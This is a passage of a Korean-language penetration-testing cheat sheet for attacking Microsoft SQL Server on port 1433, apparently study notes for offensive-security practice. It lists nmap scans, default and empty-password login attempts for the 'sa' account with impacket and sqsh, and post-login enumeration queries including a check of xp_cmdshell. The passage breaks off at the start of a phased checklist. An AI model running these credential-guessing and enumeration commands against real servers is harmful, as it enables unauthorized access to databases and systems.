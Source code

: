 # 🗄️ MSSQL ATTACKS (Port 1433)

> **목표: MSSQL 서비스 발견 후 25-30분 내에 시스템 명령 실행 또는 중요 데이터 접근**

## ⚡ 즉시 실행할 명령어들

### 🚀 MSSQL 발견 즉시 실행

```bash
# 1. MSSQL 포트 및 버전 확인
nmap -sV -p 1433 {IP}
nmap --script ms-sql-info -p 1433 {IP}

# 2. 기본 자격증명 즉시 시도
impacket-mssqlclient sa@{IP}
# Password 시도: (empty), sa, password, admin, 123456

# 3. MSSQL NSE 스크립트 실행 (백그라운드)
nmap --script ms-sql-* -p 1433 {IP} &

# 4. sqsh로 빠른 연결 시도 (Linux)
sqsh -S {IP} -U sa -P ''
sqsh -S {IP} -U sa -P 'sa'

# 5. 익명 접근 시도
sqsh -S {IP} -U '' -P ''
```

### ⚡ 연결 성공시 즉시 실행

```bash
# 기본 시스템 정보 확인
SELECT @@version;
SELECT system_user;
SELECT user;
SELECT db_name();

# xp_cmdshell 상태 확인
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# 데이터베이스 목록
SELECT name FROM sys.databases;
```

---

## 📋 단계별 체크리스트

### 🎯 Phase 1: 발견 및 기본 정보 수집 (7분)
